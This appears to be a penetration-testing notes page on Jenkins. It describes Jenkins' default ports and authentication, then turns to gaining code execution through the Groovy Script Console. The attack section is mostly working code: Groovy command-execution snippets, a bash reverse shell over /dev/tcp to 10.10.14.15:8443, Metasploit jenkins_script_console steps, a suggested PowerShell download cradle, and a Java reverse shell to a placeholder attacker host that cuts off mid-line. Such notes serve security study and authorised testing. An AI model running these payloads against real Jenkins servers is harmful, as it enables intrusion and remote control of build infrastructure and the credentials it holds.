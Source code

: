 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Jenkins

Jenkins is a **Java-based open-source automation server**, designed to support continuous integration by automatically building and testing software whenever changes are made. By default, Jenkins includes a lightweight Java-based web server called **Winstone** on the `8080` port, but it can also be deployed as a **Web Application Archive (WAR)** file to run inside a Java servlet container like Apache Tomcat, Jetty, or GlassFish. It uses port `5000` to connect with slave nodes for distributed tasks. When Jenkins run as a Windows service, it typically uses Winstone and runs under as `SYSTEM`.&#x20;

For authentication, Jenkins supports multiple backends including its local user database, LDAP, Unix user accounts, or a servlet container. It can also be configured to allow unauthenticated access. In its default state, **Jenkins stores credentials in its internal database** and does not permit users to create their own accounts.

## RCE

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) (`/script`), which allows us to run arbitrary Groovy scripts within the Jenkins controller runtime and can be abused to run operating system commands on the underlying server. Groovy is an object-oriented Java-compatible language. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

{% tabs %}
{% tab title="RCE" %}
Run arbitrary system commands (similar to a webshell):

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
{% endtab %}

{% tab title="RevShell" %}
Send a reverse shell:

{% code overflow="wrap" %}
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
Metasploit's [jenkins\_script\_console](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module:

```bash
> use exploit/multi/http/jenkins_script_console
> show targets
> set TARGET < target-id >
> show options
> exploit
```
{% endtab %}

{% tab title="Windows Targets" %}
Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host:

{% code overflow="wrap" %}
```groovy
String host="<attacker-IP>";
int port=<attacker-port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.ge
```
{% endcode %}
{% endtab %}
{% endtabs %}
